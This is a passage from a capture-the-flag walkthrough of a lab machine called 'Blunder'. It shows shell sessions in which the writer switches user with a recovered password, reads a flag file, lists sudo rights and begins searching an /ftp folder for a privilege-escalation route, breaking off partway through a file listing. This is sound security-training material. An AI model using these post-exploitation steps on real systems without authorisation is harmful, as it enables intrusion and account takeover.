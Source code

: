 ![Alt text](images/7.png)
```bash
ww-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
su hugo
Password: Password120
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ id
id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cd
cd
hugo@blunder:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
hugo@blunder:~$ cat user.txt
cat user.txt
610cceeee92de8c20cd26ea58e1c7b8f
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
## Priviledge Escalation
Now we can move on to root. In our initial enumeration, we found that ftp was closed, and in todo.txt, there was a note to turn off ftp, so maybe there was something left in /ftp.
```bash
hugo@blunder:/$ cd ftp
cd ftp
hugo@blunder:/ftp$ ls
ls
config  config.json  D5100_EN.pdf  note.txt
hugo@blunder:/ftp$ cat config.json
cat config.json
{
  "squadName": "Super hero squad",
  "homeTown": "Metro City",
  "formed": 2016,
  "secretBase": "Super tower",
  "active": true,
  "members": [
    {
```